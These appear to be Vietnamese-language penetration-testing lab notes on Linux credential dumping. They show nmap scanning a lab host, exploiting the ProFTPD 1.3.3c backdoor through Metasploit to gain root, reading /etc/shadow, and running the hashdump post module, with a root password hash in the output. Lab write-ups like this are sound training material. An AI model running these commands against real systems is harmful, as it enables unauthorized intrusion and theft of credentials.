



# Linux Credential Dumping

## Dumping Linux Password Hashes

Tất cả thông tin các tài khoản (được lưu pass) được lưu ở: `/etc/passwd` -> ko có password, và file này được đọc bởi tất cả user

Tất cả hash mật khẩu được lưu trong `etc/shadow` -> chỉ đọc được bởi root, hoặc có quyền root

### lab

Khai thác để có access vào máy

`nmap -sV 192.75.64.3`

    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     ProFTPD 1.3.3c
    MAC Address: 02:42:C0:4B:40:03 (Unknown)
    Service Info: OS: Unix

`searchsploit ProFTPD 1.3.3`

Mở MSF để khai thác:

`service postgresql start && msfconsole -q`

`setg RHOSTS 192.75.64.3`

`search proftpd`

`use exploit/unix/ftp/proftpd_133c_backdoor`

`run`

sau khi vào được phiên

`/bin/bash -i`

-> ta đã có quyền root ở máy victim

tạo 1 session có meterpreter

background the session with CTRL+Z

`sessions`

`sessions -u 1`

`sessions` -> đã có 1 phiên thứ 2 là meterpreter

`sessions 2`

**Hashes Dumping**

`cat /etc/shadow`

`root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`

-> background the session with CTRL+Z

`search hashdump`

`use post/linux/gather/hashdump`

`set SESSION 2`

`run`

[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20230323100234_default_192.75.64.3_linux.hashes_660271.txt

Crack the Hash

